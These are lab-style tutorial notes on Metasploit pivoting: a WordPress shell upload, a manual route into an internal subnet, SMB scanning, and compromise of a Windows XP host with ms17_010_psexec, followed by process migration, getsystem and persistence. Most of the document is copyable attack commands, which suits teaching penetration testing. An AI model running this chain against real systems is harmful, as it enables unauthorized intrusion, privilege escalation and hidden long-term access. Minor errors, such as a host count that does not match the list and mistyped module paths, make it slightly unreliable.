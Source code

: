 # Routing and Pivoting

We have 3 machines: Pentesting, Beta and Windows XP.

Pentesting is in the range of 100.
Beta is in the range of 100 and 148.
Windows XP is in the range of 148.

## Pivoting with the first machine

Basically, we'll use the Beta machine to enter the 148 range.

```bash
ping beta.hackerinthehouse.com
msfconsole
use exploit/unix/webapp/wp_admin_shell_upload
show options
set PASSWORD password
set USERNAME username
set RHOSTS url
run
```

Now the shell is opened.

We can backgroung it by typing `ctrl+Z`.

```bash
sessions
```

This shows us the sessions opened.

```bash
sessions -i 1
shell
```

This allow us to use the shell of the webserver.

```bash
ifconfig
```

## Finding opened ports

Now we can exit the shell and stay in the meterpreter.
We background it and use ping_sweep (post exploitation tool).

```bash
search ping_sweep
use pose/multi/gather/ping_sweep
set RHOSTS 10.0.148.0/24
set SESSION 1
run
```

We receive 3 hosts:

- 10.0.148.1
- 10.0.148.3
- 10.0.148.2
- 10.0.148.84
- 10.0.148.111

## Creating a custom route

Let's select 10.0.148.84
We now need to setup a manual route.
There are two way, inside or outside of meterpreter.
We'll use the indide method.

```bash
exit
route -h
# search what is a subnet, etc..
route add 10.0.148.0 255.255.255.0 1
```

```bash
route print
```

This is our routing table.

```bash
Subnet            Netmask            Gateway
------            -------            -------
10.0.148.0        255.255.255.0      Session 1
```

You can now run any exploit or scanner and that will go to this route.

### Finding ports from the 148 range

Let's look for a portscan auxiliary.

```bash
search scanner
user auxiliary/scanner/portscan/tcp
show options
set RHOSTS 10.0.148.84
set PORTS 1-500
run
```

We get 3 open ports.

- 10.0.148.84.135
- 10.0.148.84.139
- 10.0.148.84.445

Now we can go back to the options and change the `set PORTS to 500-1000`.

## Scanning the SMB port

The port 445 is an SMB port, we could try to use a SMB scanner.

```bash
background
search smb
```

We'll have to detect the version of SMB. Then find users, shares and domains.

```bash
use auxiliary/scanner/smb/smb1
set RHOSTS 10.0.148.84
run
```

We see that this hosts supports SMBv1.
We can go ahead and search for the v2.

```bash
use auxiliary/scanner/smb/smb2
set RHOSTS 10.0.148.84
run
```

This time there aren't any output.
This is common with auxiliaries, you won't get output if there aren't outputs.

```bash
search smb_enum
use auxiliary/scanner/smb/smb_enumusers
set RHOSTS 10.0.148.84
run
```

There aren't any output - might be because it's secure enough that it won't give us the users.
Let's find an exploit for smb v1.

```bash
use auxiliary/scanner/smb/smb_version
set RHOSTS 10.0.148.84
run
```

This finds us the Windows WP version.

## Finding other exploits

```bash
search type:expoit xp
```

There are almost 2000 exploits.
`ms08_067_netapi` is a very common one.

```bash
use exploit/windows/smb/ms08_067_netapi
info
set RHOSTS 10.0.148.84
check
```

It says that the target is not exploitable.
We can try another id.

```bash
set TARGET 6
check
```

It says that the target is not exploitable.

```bash
set TARGET 7
check
```

It says that the target is not exploitable.
It's not going to work.
We'll try eternalblue.

```bash
search eternal
use exploit/windows/smb/ms17_010_eternalblue
show options
```

That won't work because it isn't Windows 7 and Server 2008 R2 (x64)
Let's try the psexec exploit.

```bash
search eternal
use exploit/windows/smb/ms17_010_psexec
show options
set RHOSTS 10.0.148.84
check
```

The target is vunlerable!

## Entering the machine

```bash
exploit
background
sessions -i 2
```

We are now in meterpreter, inside the windows XP machine.

```bash
help
ps
```

`ps` will show you the processes running in that machine.

## Migrating between processes

```bash
migrate 644
```

We are now running as the winlogon process. That means that we won't be out until the user restarts the system.

```bash
screenshot
```

That takes a screen shots and saves it in kali.

```bash
getsystem
getprivs
background
```

`getsystem` will escalate us to the most powerful user.
`getprivs` will show us our privileges.

## Using persistence

```bash
use post/windows/manager/persistence_exe
show options
```

Persistence allow us to store the meterpreter in the memory.
In real life testing, it could go on during months.
You'll need to store your connexions.

```bash
run persistence -h
exit
```
